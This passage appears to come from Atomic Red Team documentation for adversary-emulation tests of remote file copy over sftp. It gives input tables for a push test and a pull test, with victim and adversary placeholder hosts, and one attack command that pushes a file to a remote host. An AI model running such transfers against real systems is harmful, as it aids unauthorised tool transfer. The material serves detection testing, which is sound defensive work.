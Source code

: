 




<br/>
<br/>

## Atomic Test #5 - sftp remote file copy (push)
Utilize sftp to perform a remote file copy (push)

**Supported Platforms:** Linux, macOS


**auto_generated_guid:** f564c297-7978-4aa9-b37a-d90477feea4e





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| remote_path | Remote path to receive sftp | path | /tmp/victim-files/|
| local_file | Path of file to copy | path | /tmp/adversary-sftp|
| remote_host | Remote host to copy toward | string | victim-host|
| username | User account to authenticate on remote host | string | victim|


#### Attack Commands: Run with `sh`! 


```sh
sftp #{username}@#{remote_host}:#{remote_path} <<< $'put #{local_file}'
```






<br/>
<br/>

## Atomic Test #6 - sftp remote file copy (pull)
Utilize sftp to perform a remote file copy (pull)

**Supported Platforms:** Linux, macOS


**auto_generated_guid:** 0139dba1-f391-405e-a4f5-f3989f2c88ef





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| remote_host | Remote host to copy from | string | adversary-host|
| local_path | Local path to receive sftp | path | /tmp/victim-files/|
| remote_file | Path of file to copy | path | /tmp/adversary-sftp|
| username | User account to authenticate on remote host | string | adversary|
